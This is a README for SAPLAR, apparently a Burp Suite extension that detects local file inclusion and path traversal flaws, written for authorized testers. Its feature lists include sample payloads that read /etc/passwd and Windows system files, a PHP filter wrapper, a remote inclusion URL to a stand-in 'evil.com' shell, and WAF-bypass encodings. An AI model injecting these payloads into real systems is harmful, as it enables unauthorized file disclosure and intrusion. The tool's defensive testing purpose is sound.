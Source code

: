 # SAPLAR - LFI & Path Traversal Scanner - Burp Suite Extension

## 📌 Project Overview

SAPLAR is a powerful **Burp Suite extension** designed to **detect Local File Inclusion (LFI) and Path Traversal vulnerabilities** in web applications. This tool is built for **penetration testers, bug bounty hunters, and security researchers** who need an **automated, flexible, and highly efficient** LFI scanner within Burp Suite.

SAPLAR injects **LFI payloads** into various parts of HTTP requests, including:

- **GET Parameters**
- **POST Data**
- **Cookies**
- **HTTP Headers**

It then analyzes the **server response** to identify **LFI signatures**, potential file disclosures, and error patterns.

---

## ⚡ Features

### ✅ Multi-Vector LFI Injection

SAPLAR automatically injects **payloads into multiple request locations**:

- **Query Parameters** (`?file=../../etc/passwd`)
- **POST Body** (`file=../../etc/passwd`)
- **Cookies** (`session=../../etc/passwd`)
- **HTTP Headers** (`User-Agent, Referer, X-Forwarded-For, Authorization, etc.`)

---

### ✅ Wide LFI Payload Database

Includes **hundreds of payloads** targeting:

- **Linux systems** (`/etc/passwd`, `/proc/self/environ`, `/var/log/auth.log`)
- **Windows systems** (`C:\Windows\win.ini`, `C:\boot.ini`, `C:\Users\Administrator\NTUSER.DAT`)
- **PHP Wrappers** (`php://filter/convert.base64-encode/resource=index.php`)
- **Log file extraction** (`../../../../var/log/apache2/access.log`)
- **Remote inclusion possibilities** (`http://evil.com/shell.php`)

---

### ✅ Automatic Encoding & WAF Bypass

Payloads can be **automatically encoded** to bypass **security protections** such as **WAF (Web Application Firewalls)** and **input validation filters**:

- **Base64 Encoding**
- **URL Encoding (Single, Double, Triple)**
- **HEX Encoding**
- **Unicode Encoding**

---

### ✅ Signature-Based Response Analysis

SAPLAR scans **responses** for **known LFI indicators**, such as:

- **System Users:** `"root:x:0:0:"`, `"NT AUTHORITY\\SYSTEM"`
- **Configuration Files:** `"[boot loader]"`, `"kernel.core_pattern"`
- **Error Messages:** `"failed to open stream"`, `"No such file or directory"`
- **False Positive Filtering:** Detects **standard 403/404 responses** and **bypasses false positives**.

---

### ✅ Header & Cookie-Based Injection

Injects **LFI payloads** into common headers:

- **User-Agent**
- **Referer**
- **X-Forwarded-For**
- **Authorization**
- **X-Api-Key**
- **Accept-Charset**

Also attempts **cookie manipulation** by injecting **LFI payloads into session tokens and authentication cookies**.

---

### ✅ GUI Integration in Burp Suite

SAPLAR provides a **user-friendly** graphical interface within Burp Suite:

- **A dedicated "LFI Scan" tab** for managing scans.
- **Right-click any request** in Burp and select `"Scan for LFI"`.
- **Real-time exploit status updates** (`Exploited, Not Vulnerable, Possible LFI`).

---

## 🔧 Installation

1️⃣ **Open Burp Suite** and navigate to **Extender → Extensions**.  
2️⃣ **Click "Add"**, select **Python**, and load `SAPLAR.py`.  
3️⃣ The **"LFI Scan"** tab will now appear in Burp Suite.  

---

## 🚀 Usage

### 🔹 Active LFI Scanning

1️⃣ **Enable automatic scanning** in Burp’s **Proxy or Scanner settings**.  
2️⃣ SAPLAR will **inject payloads** and **analyze the responses**.  
3️⃣ If an **LFI vulnerability** is detected, it will be **flagged in the LFI Scan tab**.  

---

### 🔹 Manual LFI Scanning

1️⃣ **Right-click** on any HTTP request in **Burp Proxy, Repeater, or Scanner**.  
2️⃣ Select **"Scan for LFI"** from the context menu.  
3️⃣ View the **results** in the **LFI Scan panel**.  

---

## 🔍 Signature-Based Detection & Exploit Confirmation

SAPLAR **analyzes HTTP responses** for **LFI-related patterns**.

### 📌 **Direct File Output**
- `"root:x:0:0"` → Indicates **successful passwd file read**.
- `"[boot loader]"` → Indicates **Windows system file leakage**.
- `"NT AUTHORITY\\SYSTEM"` → **Windows privilege escalation** detected.

### 📌 **Error Messages**
- `"failed to open stream"` → **Indicates file inclusion attempt**.
- `"No such file or directory"` → **Confirms path traversal attempt**.

### 📌 **False Positive Prevention**
- **Content-Length Analysis**  
- **403/404 Page Detection**  

---

## 🔥 Planned Features (Upcoming Enhancements)

🚀 **Advanced Fuzzing** – Automate **LFI detection** with **dynamic payloads**.  
🚀 **More Encoding Methods** – **Triple encoding** & **custom bypass techniques**.  
🚀 **Full RFI Support** – **Test for Remote File Inclusion vulnerabilities**.  
🚀 **XSS & SQLi Detection** – Expand to **other common web vulnerabilities**.  

---

## ⚠ Legal Disclaimer

SAPLAR is **intended for authorized security testing and educational purposes only**.  
🚫 **Unauthorized testing** against systems **without explicit permission is illegal**.  
✅ **By using this tool, you agree to abide by ethical hacking principles**.  

---

## 🏆 Conclusion

SAPLAR is **one of the most powerful LFI detection tools within Burp Suite**.  
It combines **automated scanning**, **intelligent payload injection**, **advanced encoding techniques**, and **signature-based detection** to uncover **critical LFI vulnerabilities**.  

🔹 **If you have any suggestions or want to contribute, feel free to open a pull request!**  

---

![checker](saplar1.png)
![checker](saplar2.png)
